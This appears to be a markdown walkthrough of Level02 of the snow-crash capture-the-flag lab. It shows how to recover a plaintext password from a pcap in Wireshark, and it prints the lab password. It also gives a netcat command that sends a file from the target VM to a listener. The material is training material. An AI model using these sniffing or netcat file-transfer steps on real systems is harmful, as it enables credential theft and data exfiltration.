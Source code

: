 # Level02
Surprise! Our home directory is not empty this time.

![image](https://github.com/user-attachments/assets/e90f08cc-e8c6-43d2-a211-426c455d7998)

So, what is a **pcap** file and how do we make sense of it? 

PCAP files are a common format for storing packet captures. A PCAP file includes an exact copy of every byte of every packet as seen on the network. [See](https://www.endace.com/learn/what-is-a-pcap-file)
There are various open-source tools we can use to read and write PCAP files including tcpdump, libPCAP, WinPCAP, NPCAP, Zeek, Snort, Suricata, Wireshark. **Wireshark** is among the recommended tools for this project and it is preinstalled on my machine so we'll go with that. (Edit: It was actually cloudshark that was recommended for this project but it is too late now and wireshark is more convenient)

I said my machine though, not the host machine. 

![image](https://github.com/user-attachments/assets/e46661ec-337c-4ad2-bfd4-95d0e2d0b172)

When using tools like john I was easily able to copy-paste text between machines but I need to actually transfer a file now. Did you know that there is a whole course for that on [HTB Academy](https://academy.hackthebox.com/course/preview/file-transfers)?
We probably won't need to go thorough all that though. We just need to learn to use the **SCP** command as suggested by the project's subject.pdf.

`man scp`:
```
scp — OpenSSH secure file copy

scp copies files between hosts on a network.

       scp uses the SFTP protocol  over  a  ssh(1)  connection  for  data
       transfer,  and  uses the same authentication and provides the same
       security as a login session.
```

**Syntax:**
`scp user@remotehost:/home/user/file_name `

`$ scp -P 4242 level02@192.168.56.101:~/level02.pcap .`:

![image](https://github.com/user-attachments/assets/acd01ffd-d4e1-4ebf-a4b6-d80da9526c97)

(See [below](#bug), if you are having issues with this command)

Now that I have the necessary file in my current directory I can run

`$ sudo wireshark level02.pcap`:

![image](https://github.com/user-attachments/assets/ba0cc406-d451-48ee-950a-3514e07a8308)

Going one by one I see the word Password on line 42(how original) but am unable to decipher much else. Let's go to Analyze → [Follow](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowStreamSection.html) → TCP Stream window.

This will display stream content in the same sequence as it appeared on the network. Traffic from the client to the server will be colored red, while traffic from the server to the client will be colored blue.

Non-printable characters are replaced by dots.

![image](https://github.com/user-attachments/assets/ba82eb31-4bb9-4ad1-bd51-b5ddd80abd1c)

Alright, this looks promising `Password: ft_wandr...NDRel.L0L` 

![image](https://github.com/user-attachments/assets/9b94a91d-1848-4f86-884e-2a3bbf49f302)

Uh...oh right, remember when I said non-printable characters are replaced by dots? Let's take a closer look at what all those dots are meant to be

![image](https://github.com/user-attachments/assets/95510868-d994-47d6-b034-c1c236b97600)

0D is the carriage return which shows the point client was done entering his password.
7F is the Delete character. Client must have made some mistakes while entering the password or maybe it was an attempt to confuse anyone else who might be listening in.

In any case `ft_wandr...NDRel.L0L` becomes `ft_waNDReL0L`

Let's try it

![image](https://github.com/user-attachments/assets/09bf0234-51a0-40c2-b9c3-691117436e01)

![image](https://github.com/user-attachments/assets/9a7f45ae-fc3e-482d-a443-242461a4211d)

Finally!

<h2 id="bug">Blue Screen of Death </h2>

If running scp causes your computer to crash like me, it might be because of the VM's network settings.

The snow-crash machine is using Host-Only Adapter as we discussed before.

![image](https://github.com/user-attachments/assets/b87a6ad3-b8cd-45dd-92a0-f9032396ce87)

However the Kali machine I am using was on NAT

![image](https://github.com/user-attachments/assets/ef7629e8-e591-490d-bcab-d3cbc0dfd8f5)

When I changed it to **Host-only Adapter** the issue was resolved.

Hopefully those who are on Mac are having easier time here and not dealing with weird VirtualBox bugs.

### Alternatively 

You can also use netcat to transfer files like so:

First, we start listening on port 4444. `nc -l -p 4444 > level02.pcap`

![image](https://github.com/user-attachments/assets/7edb672c-d09b-4c37-84e0-afb69061f4ff)

Then we send the file `level02@SnowCrash:~$  nc -w 3 92.168.56.102 4444 < level02.pcap`

![image](https://github.com/user-attachments/assets/dbbf836c-5505-4b46-b994-e101a044c5ae)

(if you don't know your ip you can just run `$ ifconfig`)

![image](https://github.com/user-attachments/assets/36567e8d-1783-4401-8352-facb571c13aa)


Now let's check our home directory.

![image](https://github.com/user-attachments/assets/b6d22e80-f4e2-4f12-a5a2-b3a5320ed581)

Ta-da!
